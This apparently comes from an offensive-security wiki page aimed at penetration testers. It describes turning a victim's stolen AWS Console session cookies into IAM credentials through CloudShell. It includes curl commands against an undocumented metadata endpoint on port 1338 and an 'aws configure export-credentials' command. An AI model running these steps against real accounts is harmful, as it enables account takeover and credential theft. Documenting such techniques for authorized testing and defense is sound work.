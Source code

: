 ```yaml
---
author_name: Nick Frichette
title: "Get IAM Credentials from a Console Session"
description: Convert access to the AWS Console into IAM credentials.
hide:
  - toc
---
```


# Get IAM Credentials from a Console Session

<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/">Retrieving AWS security credentials from the AWS consoletitle</a> by <a href="https://blog.christophetd.fr/">Christophe Tafani-Dereeper</a></p>
    <p><img src="https://pbs.twimg.com/profile_images/573517077786402817/V0jaP4f8_400x400.jpeg" alt="Christophe Tafani-Dereeper" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>
</div>

When performing a penetration test or red team assessment, it is not uncommon to gain access to a developer's machine. This presents an opportunity for you to jump into AWS infrastructure via credentials on the system. For a myriad of reasons you may not have access to credentials in the `.aws` folder, but instead have access to their browser's session cookies (for example via cookies.sqlite in FireFox).

Gaining access to the Console is great, but it may not be ideal. You may want to use certain tools that would instead require IAM credentials.

To get around this, we can leverage CloudShell. CloudShell exposes IAM credentials via an undocumented endpoint on port 1338. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```
[user@cloudshell]$ TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")

[user@cloudshell]$ curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

Alternatively, you can run the following command, which returns credentials with a short TTL (roughly 15m).

```
[user@cloudshell]$ aws configure export-credentials --format env
```
